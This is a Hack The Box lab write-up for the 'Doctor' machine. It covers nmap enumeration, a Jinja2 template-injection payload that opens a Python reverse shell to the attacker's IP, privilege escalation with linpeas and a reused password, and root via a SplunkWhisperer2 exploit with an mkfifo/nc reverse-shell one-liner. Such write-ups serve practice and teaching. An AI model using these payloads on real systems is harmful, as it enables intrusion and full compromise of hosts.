---
search:
  exclude: true
---
# Doctor Writeup

## Introduction :

Doctor is an Easy Linux box released back in September 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → nmap -vvv -p- 10.10.10.209 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.209
    Discovered open port 80/tcp on 10.10.10.209
    Discovered open port 8089/tcp on 10.10.10.209
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → nmap -sCV -p22,80,8089 10.10.10.209
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-02 22:00 CEST
    Nmap scan report for 10.10.10.209
    Host is up (0.035s latency).
    
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
    |   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
    |_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
    80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Doctor
    8089/tcp open  ssl/http Splunkd httpd
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Splunkd
    |_http-title: splunkd
    | ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
    | Not valid before: 2020-09-06T15:57:27
    |_Not valid after:  2023-09-06T15:57:27
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 33.57 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's take a look at it:

Looking at the website we are hinted towards a domain name: **doctors.htb** so let's add it to our hosts file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → sudo -i
    ┌──(root💀nowhere)-[~]
    └─# /usr/bin/sudo
    
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.209 doctors.htb' >> /etc/hosts  
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Doctors]
    → ping doctors.htb
    PING doctors.htb (10.10.10.209) 56(84) bytes of data.
    64 bytes from doctors.htb (10.10.10.209): icmp_seq=1 ttl=63 time=32.4 ms
    64 bytes from doctors.htb (10.10.10.209): icmp_seq=2 ttl=63 time=32.9 ms
    64 bytes from doctors.htb (10.10.10.209): icmp_seq=3 ttl=63 time=32.3 ms
    ^C
    --- doctors.htb ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 2002ms
    rtt min/avg/max/mdev = 32.309/32.518/32.861/0.244 ms
    
    

Then we visit the webpage:

    

Now that we created an account we're going to create a test post:

 

And looking at the sourcecode of the page we get a hint that the **/archive** page is still under beta testing. So let's take a look at it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Doctors]
    → curl http://doctors.htb/archive
    
            <****?xml version="1.0" encoding="UTF-8" ?> <****rss version="2.0"> <****channel> <****title>Archive <****/title>

Now here we see that the test post we created earlier is visible there, inside the title tags, now the question is wether or not the title of the post itself is sanitized or not, so let's test if this is vulnerable to a Server Side Template Injection ([SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)) attack 



So let's test each of the payloads:

   

Now we know that **Twig** or **Jinja2** templates are probably in use. So let's get a reverse shell:
    
    
    
    {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.13\",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}
    
    
    

`  

Then just browse to **http://doctors.htb/archive** and we get the reverse shell connection:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Doctors]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.209] 48082
    bash: cannot set terminal process group (840): Inappropriate ioctl for device
    bash: no job control in this shell
    web@doctor:~$ id
    id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
    web@doctor:~$
    
    

Now let's upgrade our shell to a fully interactive shell:
    
    
    web@doctor:~$ which python python3 wget curl
    which python python3 wget curl
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    
    
    
    
    web@doctor:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    web@doctor:~$ ^Z
    [1]  + 2659972 suspended  nc -lvnp 9001
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Doctors]
    → stty raw -echo ; fg
    [1]  + 2659972 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    web@doctor:~$ export SHELL=bash
    web@doctor:~$ stty rows 40 columns 125
    web@doctor:~$ reset
    
    
    

Now that we got a fully interactive TTY reverse shell, let's enumerate the box with linpeas:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Doctors]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Doctors]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    web@doctor:~$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-03 15:39:34--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                    100%[====================================================>] 333,85K   698KB/s    in 0,5s
    
    2021-06-03 15:39:35 (698 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    web@doctor:~$ chmod +x /tmp/peas.sh
    
    web@doctor:~$ /tmp/peas.sh
    
    

` 

Let it run and then in the output we see the following password:

Let's check which of the users have that password:
    
    
    web@doctor:~$ cat /etc/passwd | grep bash
    root:x:0:0:root:/root:/bin/bash
    web:x:1001:1001:,,,:/home/web:/bin/bash
    shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
    splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
    
    web@doctor:~$ ls -lash /home
    total 16K
    4,0K drwxr-xr-x  4 root  root  4,0K Sep 19  2020 .
    4,0K drwxr-xr-x 20 root  root  4,0K Sep 15  2020 ..
    4,0K drwxr-xr-x  6 shaun shaun 4,0K Sep 15  2020 shaun
    4,0K drwxr-xr-x  7 web   web   4,0K Jun  3 15:42 web
    

Let's try the shaun user:
    
    
    web@doctor:~$ su shaun
    Password:
    shaun@doctor:/home/web$ id
    uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
    shaun@doctor:/home/web$ cd ~
    shaun@doctor:~$ cat user.txt
    7cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to privesc to the shaun user and get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user, let's run linpeas.sh once more, this time as the shaun user:
    
    
    shaun@doctor:~$ /tmp/peas.sh
    
    

Although suprisingly we get nothing interesting other than hints towards the splunk service that's running on port 8089

    
    
    shaun@doctor:~$ ps -aux | grep splunk
    root        1139  0.0  2.0 257468 83740 ?        Sl   Jun02   0:40 splunkd -p 8089 start
    root        1141  0.0  0.3  77664 13340 ?        Ss   Jun02   0:00 [splunkd pid=1139] splunkd -p 8089 start [process-runner]
    shaun     429634  0.0  0.0  17668   736 pts/0    S+   16:01   0:00 grep --color=auto splunk
    
    

And we also see that the splunk daemon is ran by the root user:

Here we can assume that shaun's PAM password is re-used for the splunk service, so let's try it out with the Splunk Whisperer2 python exploit:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Doctors]
    → git clone https://github.com/cnotin/SplunkWhisperer2
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Doctors]
    → cd SplunkWhisperer2
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [HTB/Doctors/SplunkWhisperer2]
    → tree
    .
    ├── LICENSE
    ├── PySplunkWhisperer2
    │   ├── build_exe.bat
    │   ├── PySplunkWhisperer2_local.py
    │   ├── PySplunkWhisperer2_remote.py
    │   ├── README.md
    │   └── requirements.txt
    ├── README.md
    └── SharpSplunkWhisperer2
        ├── app.config
        ├── FodyWeavers.xml
        ├── packages.config
        ├── Program.cs
        ├── README.md
        ├── SharpSplunkWhisperer2.csproj
        └── SharpSplunkWhisperer2.sln
    
    2 directories, 14 files
    

Let's test it using shaun's credentials:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [HTB/Doctors/SplunkWhisperer2]
    → cd PySplunkWhisperer2
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [Doctors/SplunkWhisperer2/PySplunkWhisperer2]
    → python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.13 --username shaun --password Guitar123 --payload id
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmptx03ln_m.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.13:8181/
    10.10.10.209 - - [03/Jun/2021 15:56:31] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
    
    Press RETURN to cleanup
    
    [.] Removing app...
    [+] App removed
    [+] Stopped HTTP server
    Bye!
    

Seems to be working although we can't see the output of the command, so let's do it with a reverse shell this time:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [Doctors/SplunkWhisperer2/PySplunkWhisperer2]
    → python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.13 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9002 >/tmp/f'
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmprb66z6y4.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.13:8181/
    10.10.10.209 - - [03/Jun/2021 15:58:45] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
    
    Press RETURN to cleanup
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Doctors/SplunkWhisperer2/PySplunkWhisperer2]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.209] 33510
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    50XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get a reverse shell as the root user and we managed to print the root flag!

## **Conclusion**

Here we can see the progress graph :



